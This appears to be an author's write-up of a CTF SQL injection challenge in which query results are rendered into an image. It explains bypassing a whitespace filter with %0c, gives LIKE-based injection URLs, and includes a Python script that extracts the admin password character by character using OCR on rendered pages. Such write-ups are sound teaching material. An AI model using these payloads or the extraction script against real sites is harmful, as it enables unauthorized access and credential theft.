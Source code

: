 # sql_auth

This is one of the best challenges I have made so far for ctfs based on sql injections. This challenge appeared ***_vmware ctf_*** couducted as a part of _InCTF national finals_ and also in _internal ctf_ we had in our team.

Source of the challenge : Coming soon...

***Dependencies***
- imgkit
- PIL
- pytesseract

The main objective of the challenge is not to bypass the sql but to read the outcome of the injection we've made.

I've made the challenge a bit different for regular sql injection challenges we find in CTFs as I got bored cracking the traditional sql challenges.

Once the query is executed the result of the query is not relected into the html but it is written into an image which will be displayed as a greeting on the page.

So, to solve the challenge we need to read the content of the greeting image. _pytesseract_ (Python-tesseract) is an optical character recognition (OCR) tool for python. That is, it will recognize and “read” the text embedded in images. To repeatedly make a query and read the image we can use _imgkit_ which is a Python 2 and 3 wrapper for wkhtmltoimage utility to convert HTML to IMG using Webkit and to work with pytesseract we also need _PIL_ which is a python imaging library.

***SOLVING THE CHALLENGE***

```PHP
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>3) exit("No No");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit("NoNo");
```

On analysing this code we can understand that we can't use space, tabs, newlines, ```%0c``` etc.
But we can use %0c and %0b as alternatives

So, bypassing the space :
```
url/?bypas=%0c
```
![sql](img/CTF/sqlauth/sqlauth0.png)

Now dumping the admin password which is quite easy....

```
url/?bypass=%0c&pass='%0c||%0c(pw%0clike%0c'%');%00'
```

![sql](img/CTF/sqlauth/sqlauth1.png)

```
url/?bypass=%0c&pass='%0c||%0c(pw%0clike%0c'2%');%00'
```

![sql](img/CTF/sqlauth/sqlauth2.png)

This will greet us with welcome admin. Now all we have to do is automate the process （^ - ^）

```python
import imgkit
from PIL import Image, ImageDraw, ImageFont
import pytesseract
pay="1234567890"
passwd=""
url = 'http://url/this_is_the_sql.php?bypass=&pass=\'||(pwlike\''
while(1):
    corr=0
    for j in pay:
        query=url+passwd+j+'%\')---'
        print(query)
        imgkit.from_url(query, 'out.png')
        img=Image.open("out.png")
        text = pytesseract.image_to_string(img,lang='eng')
        if "Welcome admin" in text:
            passwd=passwd+j
            print(passwd)
            corr+=1
            break
    if corr==0:
            break
print(passwd)
```
```
http://url/this_is_the_sql.php?pass=2387522
```
Fake flag :
```flag{chs_is_the_king}```
